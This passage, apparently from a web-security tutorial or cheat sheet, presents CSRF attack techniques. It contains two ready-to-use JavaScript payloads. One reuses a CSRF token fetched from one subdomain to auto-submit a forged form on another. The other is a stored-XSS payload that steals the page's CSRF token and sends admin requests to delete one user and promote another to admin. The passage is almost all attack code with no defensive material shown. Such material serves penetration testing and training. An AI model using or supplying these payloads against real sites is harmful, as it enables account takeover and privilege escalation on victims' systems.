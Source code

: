 
#### Method 2: Cross-Subdomain Token Reuse
```html
<!-- Test if CSRF tokens work across subdomains -->
<script>
// Get CSRF token from api.target.com
fetch('https://api.target.com/get-token')
    .then(response => response.json())
    .then(data => {
        var token = data.csrf_token;
        
        // Try to use token on www.target.com
        var form = document.createElement('form');
        form.method = 'POST';
        form.action = 'https://www.target.com/sensitive-action';
        
        var tokenInput = document.createElement('input');
        tokenInput.type = 'hidden';
        tokenInput.name = 'csrf_token';
        tokenInput.value = token;
        
        form.appendChild(tokenInput);
        document.body.appendChild(form);
        form.submit();
    });
</script>
```

### 2. 🔄 CSRF with XSS Chain

#### Stored XSS to CSRF Attack
```javascript
// Stored XSS payload that performs CSRF
<script>
// Wait for page to load
window.onload = function() {
    // Extract CSRF token from current page
    var csrfToken = document.querySelector('input[name="csrf_token"]').value;
    
    // Perform CSRF attack with valid token
    var xhr = new XMLHttpRequest();
    xhr.open('POST', '/admin/delete-user', true);
    xhr.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
    xhr.send('user_id=123&csrf_token=' + csrfToken);
    
    // Perform multiple actions
    setTimeout(function() {
        var xhr2 = new XMLHttpRequest();
        xhr2.open('POST', '/admin/promote-user', true);
        xhr2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded');
        xhr2.send('user_id=456&role=admin&csrf_token=' + csrfToken);
    }, 1000);
};
</script>
```
